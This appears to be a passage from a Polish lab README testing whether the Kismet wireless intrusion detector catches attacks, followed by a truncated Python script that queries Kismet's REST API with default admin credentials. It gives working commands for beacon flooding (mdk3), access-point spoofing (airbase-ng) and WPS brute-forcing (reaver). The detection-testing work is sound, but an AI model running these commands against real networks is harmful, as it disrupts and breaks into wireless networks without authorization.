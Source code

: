 ### Beacon Flooding
```sh
mdk3 <iface> b -c <ch> -s 1000
```
W tym przypadku kismet ostrzega nas jedynie o znakach specjalnych zawartych w bssid
![](src/string_alert.png)
***

### Spoofing AP

```sh
airbase-ng -0 -c 1 -e <essid> -a <ssid> -I 1 wlan0mon
```
![](src/spoof.png)
***

### Breaking WPS
```sh
reaver -c <ch> -d 0 -b <bssid> -S -N -i <iface> -vv -g <n>
```
Tutaj również kismet teoretycznie powinien wykryć atak jednak nie udało nam się tego osiągnąć w warunkach laboratoryjnych. Poniżej alert który powinien sie pojawić.

>WPSBRUTE
>
>Trend/stateful
>
>Excessive WPS negotiations can indicate an attack against WPS, such as Reaver

# Kismet API

Prosty skrypt korzystający z biblioteki kismet_rest w python
Biblioteka ta śluzy do komunikacji z REST API który jest domyślnie zaimplementowany w Kismet. Informacje zwracane sa w formacie JSON.

```python
#! /usr/bin/env python3
# pip install kismet_rest
import kismet_rest
import json
import sys

host_uri="http://10.211.55.10:2501"
username="admin"
password="admin"
separator = 220
o = sys.argv[1]



def pretty_print(x):
    print(json.dumps(x, indent=2))
    print("*"*separator)

if o == 'all-ap' and len(sys.argv) == 2: 
    k_connect = kismet_rest.KismetConnector(host_uri=host_uri, username=username, password=password)
    for ap in k_connect.dot11_access_points():
        pretty_print(ap)

elif o == 'ap-clients' and len(sys.argv) == 3:
    k_connect = kismet_rest.KismetConnector(host_uri=host_uri, username=username, password=password)
```
